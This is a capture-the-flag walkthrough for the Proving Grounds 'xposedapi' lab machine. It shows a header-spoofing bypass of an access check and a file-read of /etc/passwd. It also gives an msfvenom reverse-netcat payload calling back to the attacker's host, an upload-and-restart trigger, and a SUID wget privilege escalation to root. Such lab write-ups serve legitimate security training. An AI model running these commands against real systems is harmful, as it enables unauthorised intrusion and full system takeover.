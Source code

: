 ```yaml
---
description: >-
  Walkthrough for the xposedapi machine on Proving Grounds
title: "xposedapi Proving Grounds Walkthrough"
categories: [Walkthrough]
tags: [walkthrough, ctf, provinggrounds]
date: 2024-04-28 11:53:00 -0500
---
```

This is a walkthrough for the xposedapi machine on Proving Grounds, the pentesting lab environment provided by OffSec.
## Enumeration
Began enumeration by running nmap to scan ports and identify services and service versions.  
`sudo nmap -p- -sV 192.168.53.134`
>Starting Nmap 7.93 ( https://nmap.org ) at 2023-08-20 10:32 EDT  
Nmap scan report for 192.168.53.134  
Host is up (0.00072s latency).  
Not shown: 65533 closed tcp ports (reset)  
PORT      STATE SERVICE VERSION  
22/tcp    open  ssh     OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)  
**13337/tcp open  http    Gunicorn 20.0.4**  
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel  
>  
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .  
Nmap done: 1 IP address (1 host up) scanned in 8.66 seconds  

Navigated to http://192.168.53.134:13337 and the homepage states that this is a Remote Software Management API and lists information on how to use the API  
![Remote Software Management API homepage image 1](../images/xposedapi_homepage_1.png)  
![Remote Software Management API homepage image 2](../images/xposedapi_homepage_2.png)  
![Remote Software Management API homepage image 3](../images/xposedapi_homepage_3.png)  

Checked out each API endpoint (minus restart - I think we know what that does, but it can be explored if other avenues don't yield any results):  
http://192.168.53.134:13337/version  
![version API endpoint](../images/xposedapi_api_version.png)  

http://192.168.53.134:13337/logs  
![logs API endpoint](../images/xposedapi_api_logs_accessdenied.png)  
May be able to do WAF bypass here...  

Tried to test out the update endpoint and upload a test .elf file  
![Test elf file creation](../images/xposedapi_api_update_testfilecreation.png)  
![Test elf file upload](../images/xposedapi_api_update_testfileupload.png)  
Username bruteforcing may be necessary here

## Exploitation
Launched burp suite and sent my GET request to the logs API endpoint again. Used repeater to repeat the request, however, this time I placed some common WAF bypass headers in the request before sending it:  
>X-Originating-IP: 127.0.0.1  
X-Forwarded-For: 127.0.0.1  
X-Remote-IP: 127.0.0.1  
X-Remote-Addr: 127.0.0.1  
X-Client-IP: 127.0.0.1  

![WAF bypass](../images/xposedapi_api_logs_wafbypass.png)  
Much better!  

Abused the file parameter to view /etc/passwd  
![Viewing /etc/passwd](../images/xposedapi_api_logs_lfi.png)  
One username of interest here is "clumsyadmin"  

Rather than send a blank .elf file, created a reverse shell .elf file using msfvenom  
`msfvenom -p cmd/unix/reverse_netcat LHOST=192.168.49.53 LPORT=13337 > shell.elf`  
![Reverse shell file creation](../images/xposedapi_api_update_msfvenomfilecreation.png)  
![Reverse shell file contents](../images/xposedapi_api_update_msfvenomfilecontents.png)  
Started a python web server on Kali to host the reverse shell (the server runs on port 8000 by default)  
`python3 -m http.server`  
Started a nc listener on port 13337 (used a port that the server has open; firewalls are commonly misconfigured to allow traffic in **and** out on a certain port)  
`nc -lvp 13337`  

Uploaded the reverse shell file to the target web server  
![Uploading reverse shell](../images/xposedapi_api_update_msfvenomfileupload.png)  
This looks promising!  

Sent an API call to restart the remote management software  
![Restarting software](../images/xposedapi_api_restart.png)  

![Reverse shell connection](../images/xposedapi_api_reverseshell.png)  
Got a reverse shell!  
## Privilege Escalation
Transferred over linpeas.sh from my Kali python web server to clumsyadmin's home folder, however every time I tried to run `chmod +x linpeas.sh`, root took ownership of the file and I wasn't granted execution permissions on the file...  
Instead, in the clumsyadmin home directory, I created a new file named "test" and copied the permissions of a file with the execution bit set (in this case, the "app" file), then I piped the contents of linpeas.sh into the now executable test file  
`echo test > test`  
`chmod --reference=app test`  
`cat linpeas.sh > test`  
![clumsyadmin home folder](../images/xposedapi_clumsyadmin_home.png)  
Reflecting on this, I probably could have avoided creating a test file and just ran `chmod --reference=app linpeas.sh`  

After successfully running linpeas, I discovered that wget has the SUID bit set which [can be abused](https://gtfobins.github.io/gtfobins/wget/#suid) to escalate privileges  
![linpeas output](../images/xposedapi_linpeasoutput.png)  

Created an executable shell file named "privesc" that spawns /bin/sh with the -p parameter.  
The -p parameter is necessary because without it, the effective UID in the shell would be 1000 (clumsyadmin) rather than 0 (root) when the wget SUID binary executes the "privesc" file  
`echo -e '#!/bin/sh -p\n/bin/sh -p 1>&0' > privesc`  
`chmod --reference=app privesc`  
![Privesc file creation](../images/xposedapi_privesc_step1.png)  

Abused wget's SUID permissions by specifying [--use-askpass](https://gitlab.com/gnuwget/wget2/-/issues/240#note_44917321) and pointing to the "privesc" shell file  
`wget --use-askpass=./privesc 0`  
![Privilege escalation](../images/xposedapi_privesc_step2.png)  
Got root!
